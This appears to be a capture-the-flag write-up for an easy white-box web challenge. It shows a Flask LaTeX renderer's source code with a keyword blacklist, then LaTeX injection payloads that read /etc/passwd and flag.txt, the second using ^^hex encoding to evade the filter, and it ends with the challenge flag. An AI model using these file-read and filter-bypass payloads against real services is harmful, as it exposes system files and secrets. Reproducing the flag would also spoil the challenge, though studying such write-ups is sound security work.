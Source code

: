 # Kethal's Transmitter

#### Category: Web Exploitation

#### Difficulty: Easy

#### Type: White Box

#### Description: Sending signals over space can take a long time.  Kethal recently built a technology capable of transmitting messages to other galaxies using a specific signal.  If only I could figure out what techniques he uses.

#### Preview:

![image](https://github.com/user-attachments/assets/6c47c66e-d94e-4210-9181-d0e173553ad6)

## Solution
<details>

![image](https://github.com/user-attachments/assets/c95bf775-d98c-40c8-8eb8-8329154a928e)

### Source Code (Python)
```python
from flask import Flask, render_template, request, jsonify
import subprocess
import os
import uuid
import base64
import time
import shutil

app = Flask(__name__)
app.config['SECRET_KEY'] = 'secret_key'
app.config['TEMP_FOLDER'] = 'temp'
app.config['FLAG'] = 'ICTF25{test_flag}'

os.makedirs(app.config['TEMP_FOLDER'], exist_ok=True)

LATEX_TEMPLATE = r"""
\documentclass{{article}}
\usepackage{{amsmath}}
\pagestyle{{empty}}

\begin{{document}}
{}
\end{{document}}
"""

blacklisted = ['flag', '.txt','newread','openin','read','file','line','closein','verbatim','usepackage','verbatiminput','lstinputlisting']

@app.route('/')
def index():
    return render_template('index.html')

@app.route('/render', methods=['POST'])
def render_latex():
    cleanup_old_jobs(app.config['TEMP_FOLDER'])

    latex_code = request.form.get('latex', '')

    for word in blacklisted:
        if word in latex_code.lower():
            return jsonify({'error': 'Forbidden word detected'})

    job_id = str(uuid.uuid4())
    job_dir = os.path.join(app.config['TEMP_FOLDER'], job_id)
    os.makedirs(job_dir, exist_ok=True)

    try:
        flag_path = os.path.join(job_dir, 'flag.txt')
        with open(flag_path, 'w') as f:
            f.write(app.config['FLAG'])  

        full_latex = LATEX_TEMPLATE.format(latex_code)
        tex_file = os.path.join(job_dir, 'document.tex')
        with open(tex_file, 'w') as f:
            f.write(full_latex)

        result = subprocess.run(
            ['pdflatex', '-interaction=nonstopmode', '-output-directory', job_dir, tex_file],
            timeout=5,
            capture_output=True,
            text=True
        )

        if result.returncode != 0:
            return jsonify({
                'error': 'Invalid Function!'
            })

        pdf_file = os.path.join(job_dir, 'document.pdf')
        png_file = os.path.join(job_dir, 'output.png')
        convert_result = subprocess.run(
            ['convert', '-density', '150', pdf_file, '-quality', '90', png_file],
            timeout=5,
            capture_output=True,
            text=True
        )

        if convert_result.returncode != 0:
            return jsonify({'error': 'Image conversion failed'})

        with open(png_file, 'rb') as f:
            image_data = base64.b64encode(f.read()).decode('utf-8')

        response = {'image': image_data}
        return jsonify(response)

    except subprocess.TimeoutExpired:
        return jsonify({'error': 'Compilation Timed Out'})
    except Exception as e:
        return jsonify({'error': 'An error occurred'})
    finally:
        pass


def cleanup_old_jobs(temp_folder, max_age_seconds=60): 
    now = time.time()
    for job_name in os.listdir(temp_folder):
        job_path = os.path.join(temp_folder, job_name)
        if os.path.isdir(job_path):
            try:
                creation_time = os.path.getctime(job_path)
                if now - creation_time > max_age_seconds:
                    shutil.rmtree(job_path)
            except Exception as e:
                print(f"Cleanup error for {job_path}: {e}")


if __name__ == '__main__':
    app.run(debug=True, host='0.0.0.0', port=5000)
```

Based on the source code, the vulnerability of the website seems like [Latex Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/LaTeX%20Injection)

```
\newread\file
\openin\file=/etc/passwd
\read\file to\line
\text{\line}
\closein\file
```

To bypass a blacklist try to replace one character with it's unicode hex value. Can refer to [PayloadsAllTheThins](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/LaTeX%20Injection/README.md)

![image](https://github.com/user-attachments/assets/cd88bbcf-7b6f-4586-b7d9-b8bb96f9c018)

Blacklisted strings:
`'flag', '.txt', 'newread', 'openin', 'read', 'file', 'line', 'closein', 'verbatim', 'usepackage', 'verbatiminput', 'lstinputlisting'`

Encode the characters with hex to bypass blacklisted words.

![image](https://github.com/user-attachments/assets/b1fa3b60-e075-4aca-8c5b-aa82e99c9af6)

Therefore, we can try use the same payload again and encode some of the characters with its hex value to bypass the blacklisting function.

![image](https://github.com/user-attachments/assets/4a5ea1f8-6eeb-4b68-aa09-e35b662b802c)

It seems like it works so we can encode the rest of the characters like "flag.txt" to read the content of the file. The following payload should look like this:

```
\newr^^65ad\fil^^65
\open^^69n\fil^^65=fl^^61g.t^^78t
\re^^61d\fil^^65 to\lin^^65
\text{\lin^^65}
\close^^69n\fil^^65
```

Using the payload and submit it into the input will reveal the contents inside the file "flag.txt". Thus, the flag is successfully obtained.

![image](https://github.com/user-attachments/assets/82d48f15-4a35-4436-b332-82c7d361b9da)

### Flag
> ICTF25{dd265d58e3e1941a0cce646df439ea13c931d0159fe5c754cd39c8bad146fea7}

</details>
